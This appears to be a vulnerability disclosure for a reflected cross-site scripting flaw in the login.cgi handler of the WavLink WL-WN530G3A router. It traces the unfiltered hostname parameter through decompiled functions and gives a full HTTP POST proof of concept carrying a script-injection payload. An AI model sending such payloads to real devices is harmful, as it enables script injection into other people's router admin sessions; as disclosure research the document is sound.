


# WL-WN530G3A Vulnerability

Vendor:WavLink

Product: WL-WN530G3A

Vulnerability: XSS

Type:XSS Attack


## Descriptions

We found a XSS vulnerability  in `login.cgi` that could be triggered by an attacker through carefully crafted packet requests:

In  main function,the router compare the `page` parameter.

When the value of `page` is `login`, the function sub_400E60 will be called.

<div  align="center"></div>

This function defines a variable hostname, retrieves its value from the request  packet, uses the sprintf function to concatenate it into v58, and finally passes the result to sub_403818 for processing.

<div  align="center"></div>
<div  align="center"></div>

However，the sub_403818 function creates a response packet and places the unfiltered value of the hostname into the packet.

## Proof of Concept (PoC)

We set `hostname` as **192.168.6.12"</script><svg/onload=alert()>** ,such as:

```http
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.6.12
Content-Length: 294
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.6.12
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.6.12/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

newUI=1&page=login&username=admin&langChange=0&ipaddr=%3A%3Affff%3A192.168.6.1&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&wizardpage=wizard.shtml&hostname=192.168.6.12"</script><svg/onload=alert()>&key=M36990924&password=73b06eb26be9f92a5fcbe27a647c44ff&lang_select=en
```

## outcome
<div  align="center"></div>
